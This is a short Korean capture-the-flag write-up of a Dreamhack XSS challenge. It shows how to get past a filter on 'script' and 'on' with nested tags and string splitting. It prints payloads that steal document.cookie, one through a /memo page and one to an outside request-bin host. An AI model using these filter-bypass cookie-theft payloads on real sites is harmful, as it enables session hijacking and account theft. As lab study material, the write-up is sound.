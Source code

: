 그래서 param 값에 플래그 값을(즉, 쿠키 값) 받아올 코드를 작성해야 한다. <br />

이러한 상황에서는 크게 2가지 방법이 쓰일 수 있다.
1. memo 페이지 이용하기
2. 공격자의 웹 서버를 이용해 쿠키 값 전달하기

#### memo 페이지 이용하기
```html
<script>document[location].href = "/memo?memo=" + document.cookie;</script>
```
기억 할지는 모르겠지만 /memo 페이지는 URL로 받은 memo 값을 화면에 출력해주는 간단한 역할을 한다.<br />
여기서 우리는 `document[location].href` 값을 조작하여 쿠키 값을 `/memo?memo=`로 보내주어 /memo 페이지에서 플래그를 얻어내는 방법을 사용할 수 있다.<br />

script 태그를 사용할 수 없을 뿐더러 location의 마지막 두 글자인 on 또한 공백으로 치환되기 때문에 스크립트를 아래처럼 변환해야 한다.<br />
```html
<scrscriptipt>document["locatio" + "n"].href = "/memo?memo=" + document.cookie;</scrscriptipt>
```
#### 공격자의 웹 서버를 이용해 쿠키 값 전달하기
```html
<scronipt>document['locatio'+'n'].href = "https://qiplbxw.request.dreamhack.games/?memo=" + document.cookie;</scronipt>
```
본인은 개인 웹 서버가 없기 때문에 Dreamhack의 Request Bin을 이용했다. <br />
Request Bin의 주소를 href 값으로 초기화해주고 memo 파라미터를 쿠키 값으로 전달하는 원리이다.
# 배운 것
XSS 키워드 필터링에 대해 우회하는 법을 실습할 수 있는 좋은 기회였다.